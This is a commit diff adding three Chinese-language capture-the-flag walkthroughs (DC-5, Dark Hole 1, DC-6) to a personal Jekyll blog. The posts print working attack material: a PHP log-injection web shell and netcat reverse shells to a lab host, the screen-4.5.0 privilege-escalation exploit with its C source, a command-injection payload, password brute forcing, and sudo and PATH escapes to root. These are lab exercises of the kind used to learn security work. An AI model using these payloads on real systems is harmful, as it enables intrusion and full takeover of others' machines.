

Before and after one commit to Kyon-H/kyon-h.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Auto-sync

````diff
--- /dev/null
+++ b/_posts/2025-07-14-DC-5.md
@@ -0,0 +1,150 @@
+---
+layout: post
+title: DC-5
+subtitle: DC-5
+date: 2025-07-14 09:42
+author: Kyon-H
+header-img: img/post-bg-2015.jpg
+tags:
+  - 靶场实战
+  - DC系列
+published: true
+---
+
+扫描IP，发现主机 `192.168.163.131`
+
+![image.png](https://img.ghostliner.top/5EIqko.png)
+
+nmap 扫描端口
+
+![image.png](https://img.ghostliner.top/3eEhul.png)
+
+扫描目录
+
+```shell
+dirsearch -u http://192.168.163.131
+```
+
+![image.png](https://img.ghostliner.top/NKfI1N.png)
+
+访问 `thankyou.php` 发现页面每次访问年份有变化，猜测有文件包含
+
+![image.png](https://img.ghostliner.top/AkVtmi.png)
+
+wfuzz测试
+
+```shell
+wfuzz -w /usr/share/wordlists/wfuzz/general/common.txt -u http://192.168.163.131/thankyou.php?FUZZ=index.php --hw 66
+```
+
+![image.png](https://img.ghostliner.top/uJqh3W.png)
+
+查看passwd文件: http://192.168.163.131/thankyou.php?file=file:///etc/passwd
+![image.png](https://img.ghostliner.top/kW0SGs.png)
+
+查看日志文件: http://192.168.163.131/thankyou.php?file=file:///var/log/nginx/access.log
+
+日志注入
+```
+/thankyou.php?file=file://<?php echo qazqazqaz;eval($_REQUEST["cmd"])?>
+# or
+/thankyou.php?file=file://<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 5555 >/tmp/f')?>
+```
+
+蚁剑连接成功
+![image.png](https://img.ghostliner.top/hMgCKv.png)
+
+反弹shell成功，find判断是否可以提权，发现 `screen-4.5.0`
+![image.png](https://img.ghostliner.top/pgAJ54.png)
+
+搜索相关漏洞，使用 `41154.sh` 进行提权
+
+![image.png](https://img.ghostliner.top/KwqlkT.png)
+
+在目标机上直接执行脚本失败，在kali上编译失败。
+![image.png](https://img.ghostliner.top/IPVQN9.png)
+
+在centos7上先编译再在目标机上执行，成功提权。
+
+**过程如下：**
+
+安装gcc
+
+```shell
+# 1.备份
+mv /etc/yum.repos.d/CentOS-Base.repo /etc/yum.repos.d/CentOS-Base.repo.backup
+# 2.下载想要的源
+wget -O /etc/yum.repos.d/CentOS-Base.repo http://mirrors.aliyun.com/repo/Centos-7.repo
+# 3.清除旧缓存数据，建立新的缓存
+yum clean all
+yum makecache
+# 4.安装gcc
+yum install -y gcc
+```
+
+创建两个文件
+
+```shell
+cat << EOF > /tmp/libhax.c
+#include <stdio.h>
+#include <sys/types.h>
+#include <unistd.h>
+__attribute__ ((__constructor__))
+void dropshell(void){
+    chown("/tmp/rootshell", 0, 0);
+    chmod("/tmp/rootshell", 04755);
+    unlink("/etc/ld.so.preload");
+    printf("[+] done!\n");
+}
+EOF
+```
+
+```shell
+cat << EOF > /tmp/rootshell.c
+#include <stdio.h>
+int main(void){
+    setuid(0);
+    setgid(0);
+    seteuid(0);
+    setegid(0);
+    execvp("/bin/sh", NULL, NULL);
+}
+EOF
+```
+
+编译文件
+
+```shell
+gcc -o /tmp/rootshell /tmp/rootshell.c
+gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
+rm -f /tmp/libhax.c
+rm -f /tmp/rootshell.c
+```
+
+将文件传送到目标机
+
+```shell
+# dc-5
+cd /tmp
+nc -lvp 4545 > libhax.so
+# centos
+nc 192.168.163.131 4545 <libhax.so
+# dc-5
+nc -lvp 4545 > rootshell
+# centos
+nc 192.168.163.131 4545 <rootshell
+```
+
+最后在目标机上执行
+
+```shell
+cd /etc
+umask 000
+screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
+screen -ls
+/tmp/rootshell
+```
+
+查看 `/root/thisistheflag.txt`
+
+![image.png](https://img.ghostliner.top/EkFC3Q.png)
--- /dev/null
+++ b/_posts/2025-07-14-Dark-Hole-1.md
@@ -0,0 +1,77 @@
+---
+layout: post
+title: Dark Hole 1
+subtitle: Dark Hole 1
+date: 2025-07-14 16:49
+author: Kyon-H
+header-img: img/post-bg-2015.jpg
+tags:
+  - 靶场实战
+published: true
+---
+主机扫描，发现ip `192.168.163.134`
+
+![image.png](https://img.ghostliner.top/PEjCUd.png)
+
+端口扫描，发现80和22端口
+
+![image.png](https://img.ghostliner.top/H6fI3e.png)
+
+扫描目录
+
+```shell
+dirb http://192.168.163.134
+nikto -h 192.168.163.134
+```
+
+发现目录：
+
+```
+http://192.168.163.134/config/
+http://192.168.163.134/upload/
+http://192.168.163.134/login.php
+```
+
+对站点进行指纹识别，无发现，bp爆破用户名密码失败
+
+尝试注册成功
+
+登陆成功后地址为: http://192.168.163.134/dashboard.php?id=2
+
+遍历页面id无效，只有一个页面，可以更改用户名、邮件和密码，sqlmap测试密码时发现隐藏字段id参数，bp遍历id尝试更改其他用户密码。
+
+admin登录成功，可以上传文件
+
+上传一句话木马，经测试可以上传 `shell.phtml`
+
+蚁剑连接，反弹shell
+
+![image.png](https://img.ghostliner.top/GvKSmS.png)
+
+![image.png](https://img.ghostliner.top/7dwDHN.png)
+
+![image.png](https://img.ghostliner.top/fyi8kc.png)
+
+toto疑似使用 `id`命令，更改环境变量修改为我们自定义的 `id`命令
+
+```shell
+echo '/bin/bash' > /tmp/id
+chmod +x /tmp/id
+export PATH=/tmp:$PATH
+./toto
+```
+
+获取到密码
+
+![image.png](https://img.ghostliner.top/Wva3ra.png)
+
+![image.png](https://img.ghostliner.top/MtRwdk.png)
+
+![image.png](https://img.ghostliner.top/D6WblV.png)
+
+```shell
+echo 'import os;os.system("/bin/bash")' > file.py
+sudo /usr/bin/python3 /home/john/file.py
+```
+
+![image.png](https://img.ghostliner.top/Ifoh5M.png)
--- /dev/null
+++ b/_posts/2025-07-15-DC-6.md
@@ -0,0 +1,114 @@
+---
+layout: post
+title: DC-6
+subtitle: DC-6
+date: 2025-07-15 09:33
+author: Kyon-H
+header-img: img/post-bg-2015.jpg
+tags:
+  - 靶场实战
+  - DC系列
+published: true
+---
+ip扫描发现主机 `192.168.163.133`
+
+![image.png](https://img.ghostliner.top/079U9O.png)
+
+`namp -T4 -A -p- 192.168.163.133` 扫描端口发现80和22端口
+
+![image.png](https://img.ghostliner.top/E6ZhrX.png)
+
+访问网站被重定向 http://wordy/ , 修改hosts文件
+
+发现站点为 wordpress，使用whatweb 查看详细信息，dirsearch扫描目录
+
+```shell
+whatweb -v http://wordy/
+dirsearch -u http://wordy/
+```
+
+登陆页面： http://wordy/wp-login.php
+
+wpscan 获取用户名
+
+```shell
+wpscan --url http://wordy/ -e u
+# 保存用户名
+echo "admin\ngraham\nmark\nsarah\njens" >user.txt
+```
+
+根据官网提示生成密码字典
+
+![image.png](https://img.ghostliner.top/T0UIMS.png)
+
+```shell
+cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
+```
+
+wpscan进行爆破
+
+```shell
+wpscan --url http://wordy -U user.txt -P passwords.txt
+# mark helpdesk01
+```
+
+![image.png](https://img.ghostliner.top/wC0ouK.png)
+
+登录成功找到页面，发现存在远程命令执行漏洞
+
+![image.png](https://img.ghostliner.top/9LqB04.png)
+
+反弹shell
+
+```shell
+127.0.0.1;nc -nv 192.168.163.132 4444 -e /bin/bash
+# kali
+nc -lvvp 4444
+```
+
+查看home目录
+
+```shell
+ls -R /home
+```
+
+![image.png](https://img.ghostliner.top/Qpm843.png)
+
+查看 `things-to-do.txt` 文件，获取用户名密码 `graham`   `GSo7isUM1D4`
+
+![image.png](https://img.ghostliner.top/1kS92r.png)
+
+切换用户后，`sudo -l` 尝试提权
+
+![image.png](https://img.ghostliner.top/PkCRPu.png)
+
+![image.png](https://img.ghostliner.top/JamVE6.png)
+
+在backups.sh脚本中写入 `/bin/bash`进行提权
+
+```shell
+echo '/bin/bash' >> /home/jens/backups.sh
+sudo -u jens /home/jens/backups.sh
+```
+
+切换用户成功，进一步提权
+
+![image.png](https://img.ghostliner.top/qOZbD0.png)
+
+namp提权
+
+```shell
+tf=$(mktemp)
+echo 'os.execute("/bin/sh")' > $tf
+sudo nmap --script=$tf
+```
+
+提权成功
+
+```shell
+python -c 'import pty;pty.spawn("/bin/bash")'
+cd /root
+cat theflag.txt
+```
+
+![image.png](https://img.ghostliner.top/jjWGgY.png)
````
Also changed, not shown: _posts/2025-07-12-potato-suncsr.md (+1 -1 lines), _posts/2025-07-15-Dark-Hole-2.md (added, +74 -0 lines).
